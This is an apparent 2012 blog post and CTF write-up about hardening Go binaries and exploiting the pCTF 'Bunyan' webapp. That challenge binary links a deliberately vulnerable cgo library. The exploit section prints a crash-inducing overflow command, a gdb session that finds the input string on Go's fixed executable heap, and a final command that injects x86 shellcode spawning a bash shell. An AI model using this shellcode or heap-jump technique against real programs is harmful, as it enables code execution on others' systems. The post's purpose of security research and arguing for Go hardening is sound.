 Title: Securing and Exploiting Go Binaries
Date: 2012-05-06
Tags: golang, exploitation
Summary: I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey.

<h3>Introduction</h3>
<p>
First, I have been working in Go for about a year now. As part of this years pCTF, I created a problem that involved exploiting a Go binary (binary and source <a href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz">here</a>). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary.
</p>

<h3>Securing a Go Binary</h3>
<p>
Creating a secure, production-ready Go binary was more challenging than expected. By default: <ul>
	<li>The Go build tools include the full path to the source on the build machine in the binary. </li>
	<li>Go binaries helpfully print the faulting address and instruction on segmentation faults.</li>
	<li>The heap in Go is loaded at a fixed address and is executable.</li>
	<li>Go binaries are linked with full debug information.</li>
</ul>
I filed a <a href="http://code.google.com/p/go/issues/detail?id=3467">issue</a> suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet.
</p>

<p>
Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable <tt>GOROOT_FINAL</tt> before running <tt>all.bash</tt> (see <a href="http://code.google.com/p/go/issues/detail?id=3467#c4">this comment</a> on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a <tt>/tmp/build</tt> directory before compiling so that the only string was a <tt>"/tmp/build"</tt> rather than the actual path.
</p>
<p>
Some debug information can be stripped by passing <tt>-s</tt> as a command line to the linker (for example, <tt>go build -ldflags "-s" prog.go</tt>). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon.
</p>
<h3>Exploiting a Go program</h3>
<h4>Disclaimer</h4>
<p>
First things first - I did <em>not</em> find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags <tt>-fno-stack-protector -U_FORTIFY_SOURCE</tt> to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go.
</p>
<p>
However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars <a href="https://github.com/banthar/gl">package</a> with Go bindings for OpenGl or a <a href="http://go-lang.cat-v.org/library-bindings">variety</a> of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime.
</p>
<p>
Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the <a href="webapp"><tt>webapp</tt></a> problem used in pCTF.
</p>

<h4>The actual exploit</h4>
<p>
The Go runtime has some really interesting properties that make it fun to exploit:
<ul>
	<li>The heap is executable.</li>
	<li>The heap is deterministic and in a fixed location every run</li>
	<li>Immutable strings tend to end up on the heap</li>
</ul>
We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash.
</p>

    :::console
    $ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
    unexpected fault address 0x42424242
    throw: fault
    [signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

    goroutine 1 [syscall]:
    levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	    /tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
    levellog.Log(0x1, 0x1883cd00, 0x7f)
	    /tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
    main.main()
	    /tmp/build/src/webapp/main.go:21 +0x101

    goroutine 2 [syscall]:
    created by runtime.main
	    /usr/local/src/go/src/pkg/runtime/proc.c:221

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we <tt>objdump</tt> the function and put a breakpoint before returning to our clobbered return address.

    :::objdump
    080624d0 <Log>:
     80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
     80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
     80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
     80624e4:       e8 4f 00 00 00          call   8062538 <__i686.get_pc_thunk.bx>
     80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
     80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
     80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
     80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
     80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
     8062505:       89 34 24                mov    %esi,(%esp)
     8062508:       89 44 24 08             mov    %eax,0x8(%esp)
     806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
     8062512:       89 44 24 04             mov    %eax,0x4(%esp)
     8062516:       e8 ad 6c 25 00          call   82b91c8 <sprintf@plt>
     806251b:       89 34 24                mov    %esi,(%esp)
     806251e:       e8 b5 6c 25 00          call   82b91d8 <puts@plt>
     8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
     806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
     8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
     8062537:       c3                      ret

and

    :::console
    $ gdb webapp
    GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
    Copyright (C) 2011 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    For bug reporting instructions, please see:
    ...
    Reading symbols from /tmp/build/webapp...done.
    Loading Go Runtime support.
    (gdb) b *0x8062537
    Breakpoint 1 at 0x8062537

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range <tt>[0x18600000, 0x18900000]</tt> for this binary since Go has a deterministic heap).
    
    :::console
    (gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
    [Thread debugging using libthread_db enabled]
    [New Thread 0xb7ccbb70 (LWP 7869)]
    AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

    Breakpoint 1, 0x08062537 in Log ()
    (gdb) x/a $esp
    0xbffff1ac:	0x42424242
    (gdb) find 0x18600000, 0x18900000, 0x42424242
    0x1883cd7b


So now we know that our string, which is <tt>:AAAA...AAAABBBB</tt>, is located at <tt>0x1883cd7b - 4 - 109 = 0x1883cd0e</tt> on the heap. (Note - this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

    :::console
    $ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
    AAAAAAAAA       1Listening on :j
				    Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
    $
<p>
Success!
</p>
<h3>Postmortem</h3>
<p>
This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution.
</p>

<p>
It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: <em>this binary is easily exploitable because it is a Go binary</em>, even assuming ASLR, NX, and libc randomization.
</p>

<p>
I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary. 
</p>

<h3>Go Community Response</h3>
<p>
For anyone who is interested, the Go community's response is <a href="http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41">here</a>. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree - vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort.
</p>

<h3>Other writeups</h3>
<p>
There are writeups of this problem available by:
<ul>
	<li><a href="http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/">Eindbazen</a> (C style return to libc exploit)</li>
	<li><a href="http://www.bases-hacking.org/bunyan-plaidctf2012.html">w3stormz</a> (Go heap exploit, in French)</li>
</ul>
</p>

<h3>tl;dr</h3>
<p>
Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward.
</p>
